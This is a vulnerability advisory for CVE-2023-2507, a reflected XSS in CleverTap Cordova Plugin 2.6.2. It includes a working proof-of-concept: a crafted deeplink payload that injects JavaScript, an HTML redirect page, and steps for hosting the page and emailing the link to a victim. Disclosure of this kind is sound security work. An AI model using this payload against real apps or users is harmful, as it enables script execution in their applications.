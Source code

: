 ```yaml
---
slug: advisories/maiden/
title: CleverTap Cordova Plugin 2.6.2 - Reflected XSS
authors: Adrian Castañeda
writer: acastañeda 
codename: maiden
product: CleverTap Cordova Plugin v2.6.2
date: 2023-07-14 12:00 COT
cveid: CVE-2023-2507
severity: 9.3
description: CleverTap Cordova Plugin v2.6.2  -   Reflected XSS
keywords: Fluid Attacks, Security, Vulnerabilities, Clever Tap Cordova Plugin, Reflected Xss
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                                |
| --------------------- | -------------------------------------------------------------------------------|
| **Name**              | CleverTap Cordova Plugin 2.6.2 - Reflected XSS                                 |
| **Code name**         | [Maiden](https://en.wikipedia.org/wiki/Iron_Maiden)                            |
| **Product**           | CleverTap Cordova Plugin                                                       |
| **Affected versions** | 2.6.2                                                                          |
| **State**             | Public                                                                         |
| **Release Date**      | 2023-07-14                                                                     |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | Reflected cross-site scripting (XSS)                                                                   |
| **Rule**              | [008. Reflected cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/008)|
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:N                                                           |
| **CVSSv3 Base Score** | 9.3                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2023-2507](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-2507)                          |

## Description

CleverTap Cordova Plugin version 2.6.2 allows a remote attacker to
execute JavaScript code in any application that is opened via a
specially constructed deeplink by an attacker.

This is possible because the plugin does not correctly validate the
data coming from the deeplinks before using them.

## Vulnerability

This vulnerability occurs because the the plugin does not correctly
validate the data coming from the deeplinks before using them.

## Exploitation requirements

In order to exploit the plugin, first we need a application that use the
plugin.

### How to Create an application that uses the plugin

1. Install [Cordova](https://cordova.apache.org/docs/en/11.x/guide/cli/).

```bash
sudo npm install -g cordova
```

2. Create a new project with Cordova.

```bash
cordova create fluidpoc com.example.fluidpoc HelloPOC
```

3. Inside the directory of the new project we add the Android platform.

```bash
cordova platform add android
```

![image](https://user-images.githubusercontent.com/53542055/253701737-02de4e23-89ea-4b02-9ea2-2e1cad87c97f.png)

4. We compile the project to verify that everything is OK.

```bash
cordova build
```

![image](https://user-images.githubusercontent.com/53542055/253701744-326fe269-cbc3-41df-8eb0-076a1070c246.png)

We also checked that the application runs correctly on a cell phone.

![image](https://user-images.githubusercontent.com/53542055/253701749-642b9dc2-353a-44f8-b57a-ab5508e5118b.png)

Everything is working fine!

5. Now we add the CleverTap Cordova Plugin following the
   [instructions](https://rb.gy/e39s2) in the project
   repository.

```bash
cordova plugin add https://github.com/CleverTap/clevertap-cordova.git --variable CLEVERTAP_ACCOUNT_ID="YOUR CLEVERTAP ACCOUNT ID" --variable CLEVERTAP_TOKEN="YOUR CELVERTAP ACCOUNT TOKEN"
```

![image](https://user-images.githubusercontent.com/53542055/253701755-4d90475d-5419-496b-870e-c2c7832b5e30.png)

With this we have the latest version of the plugin in our test application.

![image](https://user-images.githubusercontent.com/53542055/253701775-1e76058d-9d35-48d8-b5f4-612eeb502384.png)

6. Now we must replace the content of the `www/js/index.js`
  file with the [example](https://rb.gy/dz2rs) presented in the
  [repository](https://github.com/CleverTap/clevertap-cordova/tree/master)
  of the plugin.

![image](https://user-images.githubusercontent.com/53542055/253701779-bd2bf07e-6fc9-4d44-9508-8d71c161f5db.png)

7. In the Androidmanifest
   `platforms/android/app/src/main/AndroidManifest.xml`
   add an intent-filter like the following in the
  `MainActivity`:

```xml
<intent-filter android:label="@string/app_name">
    <action android:name="android.intent.action.VIEW" />
    <category android:name="android.intent.category.DEFAULT" />
    <category android:name="android.intent.category.BROWSABLE" />
    <data android:scheme="fluidpoc" />
</intent-filter>
```

![image](https://user-images.githubusercontent.com/53542055/253701802-bfe25f09-e0b5-4fdb-ab2c-d857959f5eda.png)

8. Finally compile the application and install it
   on an Android device or emulator.

```bash
cordova build
```

![image](https://user-images.githubusercontent.com/53542055/253701810-a3d88563-9e52-45de-b275-22dcfa954de0.png)

![image](https://user-images.githubusercontent.com/53542055/253701816-eb20dce5-48a5-4b07-8fb9-ea1fc2e73c15.png)

## Exploitation

1. When having an application that uses the vulnerable plugin.
   The application must have an [*intent-filter*](https://rb.gy/7vjqr)
   similar to the following:

```xml
<intent-filter android:label="@string/app_name">
    <action android:name="android.intent.action.VIEW" />
    <category android:name="android.intent.category.DEFAULT" />
    <category android:name="android.intent.category.BROWSABLE" />
    <data android:scheme="fluidpoc" />
</intent-filter>
```

2. We create a malicious deeplink (payload) to exploit the
   vulnerability.

```txt
fluidpoc://fluid/'});alert('Fluid Attacks POC',{1:'a
```

3. In a directory create the file `index.html` with the
   following content in which is included our
   "malicious deeplink".

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
  <script>
    location.href = "fluidpoc://fluid/'});alert('Fluid Attacks POC',{1:'a";
  </script>
</body>
</html>
```

4. On an http server expose the file created above.
   In this case, the exposed http server is only
  accessible from my own local network, so it can
  only be accessed by devices that are on this same
  network.

```bash
python3 -m http.server
```

![image](https://user-images.githubusercontent.com/53542055/253701823-3a9178a4-2b16-4606-b43a-bbff31ece1bd.png)

5. Then we send the link to the http server that
   exposes the file we created to the user via email.

![image](https://user-images.githubusercontent.com/53542055/253701826-674bb3de-b031-42a5-9e41-3e6690b61696.png)

![image](https://user-images.githubusercontent.com/53542055/253701831-454edcb2-0748-48cc-9094-a77c327312d7.png)

6. On a device on the same network as the exposed http
   server, if the user clicks on `click me`, the "HelloPOC"
   application that uses the plugin will be opened and will
   execute JavaScript code that displays an alert to the user
   with the text "Fluid Attacks POC".

![image](https://user-images.githubusercontent.com/53542055/253701839-b48049be-b7ff-418c-badd-f85eb74de53b.png)

![image](https://user-images.githubusercontent.com/53542055/253701844-7285e191-b020-4872-8742-396c577f6258.png)

## Evidence of exploitation

![poc-xss-clever](https://user-images.githubusercontent.com/53542055/253702682-6cf25a6e-10c3-401a-a82f-d18973118806.gif)

## Our security policy

We have reserved the CVE-2023-2507 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: CleverTap Cordova Plugin 2.6.2

* Operating System: Android API 33

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by
[Adrian Castañeda](https://www.linkedin.com/in/adrian-felipe-casta%C3%B1eda-nohava-6a091b180/)
from Fluid Attacks' Offensive Team.

## References

**Vendor page** <https://github.com/CleverTap/clevertap-cordova>

## Timeline

<time-lapse
  discovered="2023-06-19"
  contacted="2023-06-20"
  confirmed="2023-06-23"
  patched=""
  disclosure="2023-07-14">
</time-lapse>
